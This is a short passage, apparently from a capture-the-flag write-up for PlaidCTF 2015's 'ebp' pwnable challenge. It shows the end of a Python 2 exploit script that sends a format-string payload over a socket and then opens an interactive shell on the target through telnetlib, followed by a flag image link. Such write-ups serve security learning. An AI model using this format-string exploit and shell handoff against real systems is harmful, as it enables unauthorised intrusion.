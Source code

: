 ```python
    +'%'+'1$4x%23$hhn' \
    +'\n'

    sock.sendall(s)
    time.sleep(0.1)
    print " [+] now, your turn!"
    t = telnetlib.Telnet()
    t.sock = sock
    t.interact()
    sock.close()

def main():
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect((HOST, PORT))
        print ' [+] Connected to',(HOST, PORT)
        exploit(sock)
        sock.close()
        sys.exit(0)
    except:
        sys.exit(1)

if __name__ == "__main__":
    main()
```
## Capture the flag![Capture the flag](https://github.com/piggybird/ctf/raw/master/PlaidCTF-2015/pwnable/ebp/flag.png)
